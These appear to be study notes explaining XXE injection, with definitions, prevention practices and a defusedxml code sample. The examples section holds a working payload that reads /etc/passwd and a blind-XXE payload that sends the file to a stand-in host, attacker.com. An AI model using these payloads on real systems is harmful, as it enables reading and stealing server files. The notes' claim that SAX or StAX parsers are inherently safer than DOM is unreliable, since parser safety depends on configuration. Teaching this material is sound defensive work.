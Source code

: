 📖 **XXE (XML External Entity) Injection**

### 🔑 **Summary**

**XXE Injection** is a vulnerability that occurs when an application processes user-controlled XML data without proper validation. Attackers can exploit this vulnerability to read sensitive files from the server, perform server-side request forgery (SSRF), and potentially execute denial-of-service (DoS) attacks. This is significant because XML parsers can handle external entities, leading to unauthorized data access or remote interactions.

---

### 📚 **Definition Bank**

- **XML (Extensible Markup Language):** A markup language used for encoding documents in a format readable by both humans and machines.
    
- **External Entity:** A reference in an XML document that points to an external source, such as a file or URL.
    
- **Blind XXE:** An attack where the response doesn't reveal data directly but can still be exfiltrated through out-of-band techniques.
    
- **SSRF (Server-Side Request Forgery):** An attack where the server makes unauthorized requests to internal resources on behalf of the attacker.
    
- **Namespace:** A collection of XML elements and attributes identified by a unique URI.
    

---

### 🧠 **Key Concepts with Examples**

#### **1. Basic XXE Payload:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<foo>&file;</foo>
```

**Explanation:** This payload declares an external entity `file` that references the `/etc/passwd` file. When the XML parser processes `&file;`, it includes the contents of the file in the response.

#### **2. Blind XXE with Data Exfiltration:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com?data=%file;'>">
%eval;]>
<data>&exfiltrate;</data>
```

**Explanation:** This payload loads `/etc/passwd` and attempts to send the data to an external server controlled by the attacker.

---

### 📊 **Comparison Table: Secure vs Insecure Practices**

|**Secure Practice**|**Insecure Practice**|
|---|---|
|Use **SAX** or **StAX** parsers|Use **DOM** parsers (more vulnerable)|
|Disable external entity loading|Allow external entity loading|
|Use `secure processing` mode|Default XML parser settings|
|Validate and sanitize input|Process untrusted XML directly|

---

### ✅ **Best Practices for Preventing XXE Attacks**

- **Disable External Entity Processing:** Ensure the XML parser does not process external entities.
    
- **Use Safer Parsers:** Choose parsers like SAX and StAX over DOM.
    
- **Input Validation:** Properly validate and sanitize all XML inputs.
    
- **Implement Least Privilege:** Limit the server's file system access.
    
- **Use Security Libraries:** Consider libraries like `defusedxml` in Python.
    

---

### 💻 **Secure Code Snippet (Python)**

```
import defusedxml.ElementTree as ET

data = """
<?xml version="1.0"?>
<data>
  <name>John Doe</name>
</data>
"""

try:
    tree = ET.fromstring(data)
    print(tree.find('name').text)
except ET.ParseError:
    print("Invalid XML data")
```

**Explanation:** This code uses the `defusedxml` library, which mitigates XXE vulnerabilities by disabling entity processing.

---

### 📌 **Conclusion**

XXE vulnerabilities can lead to severe security issues such as data breaches and server-side request forgery. Following best practices like disabling external entities and using secure parsers can help protect against these attacks.

---

### 🏷️ **#XXE #WebSecurity #CourseNotes #PenTesting**